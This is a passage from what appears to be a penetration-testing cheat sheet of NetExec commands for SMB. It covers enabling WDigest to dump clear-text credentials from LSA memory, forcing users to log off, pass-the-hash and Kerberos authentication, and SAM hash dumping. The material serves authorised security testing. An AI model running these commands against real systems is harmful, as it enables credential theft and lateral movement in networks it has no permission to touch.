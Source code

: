 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
nxc smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## nxc - loggout user
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
nxc smb <ip> -u <user> -p '<password>' -x 'quser'
nxc smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## nxc - local-auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> --local-auth
```

## nxc - local-auth with hash
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
nxc smb <ip> -u <user> -H <hash> --local-auth
```

## nxc - domain auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> -d <domain>
```

## nxc - kerberos auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
nxc smb <ip> --kerberos
```

## nxc - Dump SAM
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
